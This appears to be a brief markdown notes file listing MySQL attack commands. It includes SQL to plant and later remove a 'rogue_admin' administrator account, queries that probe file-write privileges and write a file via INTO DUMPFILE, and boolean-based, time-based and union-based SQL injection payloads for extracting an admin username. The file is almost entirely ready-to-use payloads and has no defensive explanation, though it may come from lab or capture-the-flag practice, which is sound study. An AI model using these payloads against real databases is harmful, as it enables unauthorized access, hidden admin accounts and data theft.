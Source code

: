 # CRUD Operations

1. Create rogue admin: `INSERT INTO users (username, password, is_admin) VALUES ('rogue_admin', MD5("RoguePass123"), TRUE);`

2. Delete rogue admin: `DELETE FROM users WHERE username = 'rogue_admin';`

# Filesystem operations

1. View the current user: `SELECT current_user;`
   
2. Check for the `secure_file_priv` setting: `SHOW VARIABLES LIKE 'secure_file_priv';`

3. Trying to create a file: `SELECT 'test123' INTO DUMPFILE '/var/lib/mysql-files/test.txt';`

# SQL Queries

1. Boolean-based: `' OR (SELECT SUBSTRING(username, 1, 1) FROM users WHERE username = 'blogpage_admin') = 'a' %23`

2. Time-based: `' OR IF(SUBSTRING((SELECT username FROM users WHERE username = 'blogpage_admin'), 1, 1) = 'b', SLEEP(1), 0) %23`

3. Error-based: `' union select null, null, null, null, null %23`
